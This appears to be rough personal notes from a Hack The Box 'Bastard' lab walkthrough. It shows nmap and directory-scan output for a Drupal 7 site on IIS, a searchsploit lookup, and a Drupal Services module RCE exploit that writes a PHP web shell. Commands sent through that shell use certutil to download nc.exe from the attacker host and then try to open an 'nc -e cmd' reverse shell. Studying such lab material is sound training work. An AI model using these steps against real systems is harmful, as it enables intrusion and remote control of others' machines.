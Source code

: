 └─$ nmap -sC -sV 10.10.10.9
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-18 08:36 EST
Nmap scan report for 10.10.10.9
Host is up (0.30s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Bastard | Bastard
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

### ferox buster

```
301      GET        2l       10w      149c http://10.10.10.9/modules => http://10.10.10.9/modules/
301      GET        2l       10w      150c http://10.10.10.9/profiles => http://10.10.10.9/profiles/
301      GET        2l       10w      148c http://10.10.10.9/themes => http://10.10.10.9/themes/
301      GET        2l       10w      147c http://10.10.10.9/sites => http://10.10.10.9/sites/
301      GET        2l       10w      146c http://10.10.10.9/misc => http://10.10.10.9/misc/
301      GET        2l       10w      149c http://10.10.10.9/scripts => http://10.10.10.9/scripts/
301      GET        2l       10w      150c http://10.10.10.9/includes => http://10.10.10.9/includes/
403      GET       29l       92w     1233c http://10.10.10.9/tag
403      GET       29l       92w     1233c http://10.10.10.9/admin
403      GET       29l       92w     1233c http://10.10.10.9/search
200      GET      159l      413w     7571c http://10.10.10.9/
403      GET       29l       92w     1233c http://10.10.10.9/template
301      GET        2l       10w      149c http://10.10.10.9/Scripts => http://10.10.10.9/Scripts/
301      GET        2l       10w      156c http://10.10.10.9/modules/search => http://10.10.10.9/modules/search/
301      GET        2l       10w      154c http://10.10.10.9/modules/user => http://10.10.10.9/modules/user/
301      GET        2l       10w      154c http://10.10.10.9/modules/node => http://10.10.10.9/modules/node/
301      GET        2l       10w      155c http://10.10.10.9/modules/forum => http://10.10.10.9/modules/forum/
301      GET        2l       10w      157c http://10.10.10.9/modules/contact => http://10.10.10.9/modules/contact/
301      GET        2l       10w      157c http://10.10.10.9/modules/comment => http://10.10.10.9/modules/comment/
301      GET        2l       10w      154c http://10.10.10.9/modules/blog => http://10.10.10.9/modules/blog/
301      GET        2l       10w      154c http://10.10.10.9/modules/help => http://10.10.10.9/modules/help/
301      GET        2l       10w      159c http://10.10.10.9/includes/database => http://10.10.10.9/includes/database/
301      GET        2l       10w      153c http://10.10.10.9/modules/php => http://10.10.10.9/modules/php/
301      GET        2l       10w      156c http://10.10.10.9/modules/Search => http://10.10.10.9/modules/Search/
301      GET        2l       10w      156c http://10.10.10.9/modules/system => http://10.10.10.9/modules/system/
301      GET        2l       10w      154c http://10.10.10.9/modules/poll => http://10.10.10.9/modules/poll/
301      GET        2l       10w      155c http://10.10.10.9/modules/image => http://10.10.10.9/modules/image/
301      GET        2l       10w      160c http://10.10.10.9/modules/aggregator => http://10.10.10.9/modules/aggregator/
301      GET        2l       10w      157c http://10.10.10.9/modules/profile => http://10.10.10.9/modules/profile/
301      GET        2l       10w      158c http://10.10.10.9/modules/taxonomy => http://10.10.10.9/modules/taxonomy/
301      GET        2l       10w      160c http://10.10.10.9/modules/node/tests => http://10.10.10.9/modules/node/tests/
301      GET        2l       10w      148c http://10.10.10.9/Themes => http://10.10.10.9/Themes/
301      GET        2l       10w      150c http://10.10.10.9/Includes => http://10.10.10.9/Includes/
301      GET        2l       10w      154c http://10.10.10.9/modules/menu => http://10.10.10.9/modules/menu/
301      GET        2l       10w      154c http://10.10.10.9/modules/book => http://10.10.10.9/modules/book/
301      GET        2l       10w      158c http://10.10.10.9/profiles/testing => http://10.10.10.9/profiles/testing/
301      GET        2l       10w      157c http://10.10.10.9/modules/tracker => http://10.10.10.9/modules/tracker/
301      GET        2l       10w      166c http://10.10.10.9/profiles/testing/modules => http://10.10.10.9/profiles/testing/modules/
301      GET        2l       10w      159c http://10.10.10.9/Includes/database => http://10.10.10.9/Includes/database/
301      GET        2l       10w      156c http://10.10.10.9/modules/update => http://10.10.10.9/modules/update/
301      GET        2l       10w      154c http://10.10.10.9/modules/file => http://10.10.10.9/modules/file/
301      GET        2l       10w      160c http://10.10.10.9/modules/statistics => http://10.10.10.9/modules/statistics/
301      GET        2l       10w      162c http://10.10.10.9/modules/search/tests => http://10.10.10.9/modules/search/tests/
301      GET        2l       10w      162c http://10.10.10.9/modules/system/tests => http://10.10.10.9/modules/system/tests/
301      GET        2l       10w      154c http://10.10.10.9/modules/User => http://10.10.10.9/modules/User/
403      GET       29l       92w     1233c http://10.10.10.9/Template
301      GET        2l       10w      160c http://10.10.10.9/modules/user/tests => http://10.10.10.9/modules/user/tests/
301      GET        2l       10w      156c http://10.10.10.9/modules/filter => http://10.10.10.9/modules/filter/
301      GET        2l       10w      162c http://10.10.10.9/modules/Search/tests => http://10.10.10.9/modules/Search/tests/
301      GET        2l       10w      155c http://10.10.10.9/modules/Forum => http://10.10.10.9/modules/Forum/
[>---
```

https://github.com/immunIT/drupwn.git

![](20230218113446.png)  

not able to pawn through Dupwn

using searchsploit

`searchsploit drupal` 


![](20230219071546.png) 

└─$ php 41564.php     
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9/dixuSOspsOUU.php

 
`cp /usr/share/windows-resources/binaries/nc.exe nc.exe`
`python3 -m http.server 80`


`http://10.10.10.9/dixuSOspsOUU.php?cmd=certutil.exe -f -urlcache -split http://10.10.14.19:8000/nc.exe nc.exe`

`http://10.10.10.9/dixuSOspsOUU.php?cmd=nc.exe -e cmd 10.10.14.19 1234`

![](20230219073159.png)  

unable to run nc connect commands

Tried Drupalgeddon2 but was offline


